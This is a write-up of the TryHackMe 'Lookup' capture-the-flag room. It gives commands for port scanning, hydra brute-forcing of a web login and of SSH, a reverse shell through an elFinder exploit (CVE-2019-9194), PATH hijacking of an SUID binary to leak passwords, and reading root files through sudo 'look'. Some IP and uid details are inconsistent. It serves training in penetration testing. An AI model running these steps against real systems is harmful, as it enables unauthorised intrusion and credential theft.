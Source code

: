 ```yaml
---
title: Lookup - TryHackMe
date: 2025-03-04
---
```


<script setup>
    import RoomCard from "../../../.vitepress/components/thm/RoomCard.vue";
</script>

<RoomCard
    roomName="Lookup"
    roomIcon="/ctf/tryhackme/lookup/icon-room.png"
    roomLink="https://tryhackme.com/room/lookup"
    roomLevel="EASY"
    roomTechnology="Linux"
/>

## Challenge description

Lookup offers a treasure trove of learning opportunities for aspiring hackers. This intriguing machine showcases various
real-world vulnerabilities, ranging from web application weaknesses to privilege escalation techniques. By exploring and
exploiting these vulnerabilities, hackers can sharpen their skills and gain invaluable experience in ethical hacking.
Through "Lookup," hackers can master the art of reconnaissance, scanning, and enumeration to uncover hidden services and
subdomains. They will learn how to exploit web application vulnerabilities, such as command injection, and understand
the significance of secure coding practices. The machine also challenges hackers to automate tasks, demonstrating the
power of scripting in penetration testing.

# Challenge Overview

In this challenge, we are tasked with gaining access to a vulnerable web application, escalating our privileges, and
ultimately retrieving the root flag. The target system hosts a login page and a file management system, which we will
enumerate and exploit to achieve our objective.

## Enumeration

### Nmap Scan

To begin, we perform a comprehensive scan of the target machine to identify open ports and services:

```bash
nmap -sC -sV -v -p- -oN lookup.nmap 10.10.223.218
```

#### Scan Results:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 445f26674b4a919b597a9559c84c2e04 (RSA)
|   256 0a4bb9b177d24879fc2f8a3d643aad94 (ECDSA)
|_  256 d33b97ea54bc414d0339f68fadb6a0fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://lookup.thm
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan reveals two open ports:

- **22/tcp**: SSH service running OpenSSH 8.2p1
- **80/tcp**: HTTP service running Apache httpd 2.4.41

## Web Enumeration

### Accessing the Web Application

Navigating to the target machine’s IP address redirects us to `http://lookup.thm`. To access this domain, we add it to
our `/etc/hosts` file:

```bash
echo "10.10.223.218 lookup.thm" | sudo tee -a /etc/hosts
```

Upon visiting `http://lookup.thm`, we find a login page:

![Lookup Login Page](/ctf/tryhackme/lookup/login-page.png)

## Credential Brute-Force Attack

### Username Enumeration

Testing with `admin:admin` returns an error message indicating an incorrect password, which suggests that the username
`admin` exists. This allows us to perform a brute-force attack.

```bash
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/2020-200_most_used_passwords.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password."
```

#### Output:

```bash
[80][http-post-form] host: lookup.thm   login: admin   password: redacted
```

Although we find a valid password, logging in still fails. We pivot to brute-forcing usernames using `redacted`.

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p redacted lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong"
```

#### Output:

```bash
[80][http-post-form] host: lookup.thm   login: jose   password: redacted
```

Now, logging in as `jose` grants access to the application.

## File Management System Exploitation

Upon login, we are redirected to `http://files.lookup.thm/`. After adding it to `/etc/hosts`, we gain access to the file
manager system called `Elfinder`.

![Elfinder](/ctf/tryhackme/lookup/files-page.png)

Checking for vulnerabilities, we find **CVE-2019-9194**, which allows an attacker to upload a malicious PHP payload for
remote code execution.

### Exploiting Elfinder

We found the exploit script on [GitHub](https://github.com/hadrian3689/elFinder_2.1.47_php_connector_rce).

```bash
python3 exploit.py -t 'http://files.lookup.thm/elFinder/' -lh 127.0.0.1 -lp 4444
```

We successfully obtain a reverse shell as `www-data`:

```bash
www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ whoami
www-data
```

## Privilege Escalation

### Finding Credentials

Listing `/home`, we find a user `think`. Searching for files with the SUID bit set:

```bash
find / -type f -perm -u=s 2>/dev/null
```

We identify `/usr/sbin/pwm` as a potential target.

### Exploiting `pwm`

Running it returns:

```bash
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

We can hijack the `id` command by modifying the `$PATH` variable:

```bash
echo "echo 'uid=1001(think) gid=1001(think) groups=1001(think)'" > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
```

Running `pwm` again now leaks the passwords:

```bash
jose1006
jose1004
josemario.AKA(think)
```

Using `hydra` to brute-force SSH with the leaked passwords:

```bash
hydra -l think -P passwords.txt 10.10.16.248 ssh
```

We successfully log in using `think:redacted`.

```bash
ssh think@10.10.16.248
think@lookup:~$ id
uid=1000(think) gid=1000(think) groups=1000(think)
```

Now, we can read the user flag:

```bash
cat user.txt
THM{USER_FLAG}
```

### Root Privilege Escalation

Checking `sudo` permissions:

```bash
sudo -l
```

```
User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

Using `GTFOBins`, we find that `look` can read arbitrary files as root:

```bash
LFILE=/root/root.txt
sudo look '' "$LFILE"
```

This successfully retrieves the root flag:

```bash
THM{ROOT_FLAG}
```